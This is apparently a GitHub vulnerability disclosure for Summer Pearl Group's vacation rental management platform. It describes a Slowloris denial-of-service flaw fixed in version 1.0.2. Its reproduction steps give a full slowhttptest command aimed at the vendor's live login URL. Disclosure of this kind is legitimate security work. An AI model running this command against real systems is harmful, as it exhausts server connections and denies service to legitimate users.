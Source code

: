 <table>
  <tr>
    <td width="150" rowspan="2">
      <a href="https://summerpearlgroup.gr" target="_blank">
        <img src="https://github.com/Stolichnayer/Summer-Pearl-Group-IDOR-XSS/raw/main/logo.png" alt="Summer Pearl Logo" width="120"/>
      </a>
    </td>
    <td>
      <h1>Summer Pearl Group</h1>
      <h3>Vacation Rental Management Platform Vulnerability</h3>
    </td>
  </tr>
  <tr>
    <td>
      <table>
        <tr>
          <td>
            🌐 <a href="https://summerpearlgroup.gr" target="_blank">Main Site</span></a>
          </td>
          <td style="padding-left: 15px;">
            🚀 <a href="https://summerpearlgroup.gr/spgpm/releases" target="_blank">Release Notes</span></a>
          </td>
        </tr>
      </table>
    </td>
  </tr>
</table>

## Slowloris Denial-of-Service (DoS) Vulnerability

## 📜 Description
**Summer Pearl Group's Vacation Rental Management Platform** versions prior to **1.0.2** are susceptible to a **Slowloris-style Denial-of-Service (DoS)** condition in the HTTP connection handling layer, where an attacker that opens and maintains many slow or partially-completed HTTP connections can exhaust the server’s connection pool and worker capacity, preventing legitimate users and APIs from accessing the service.

## 🔍 Affected Versions

| Status       | Version         |
|--------------|-----------------|
| 🔴 Vulnerable | ≤ `v1.0.1`     |
| 🟢  Fixed     | &nbsp;&nbsp;&nbsp; `v1.0.2`        |

## ⚠️ Disclaimer
This project is intended for **educational and ethical research purposes only**. Unauthorized testing on systems without explicit permission is illegal. Use responsibly and only on systems you own or have permission to test.

## :triangular_flag_on_post: Steps to Reproduce

### 1️⃣ Install "slowhttptest" tool

### 2️⃣ Use the following command
```
slowhttptest -c 60000 -B -g -o slowhttp -i 10 -r 60000 -t GET -u https://summerpearlgroup.gr/spgpm/login
```

## 🧑‍💻 Discovery
The vulnerability was discovered by **Alex Perrakis (Stolichnayer)**.

## 🔗 **References:**
- [Summer Pearl Group](https://summerpearlgroup.gr/spgpm/portal)
- [Vacation Rental Management Platform](https://summerpearlgroup.gr/spgpm/login)
- [Release v1.0.2 Notes (Patch)](https://summerpearlgroup.gr/spgpm/releases)

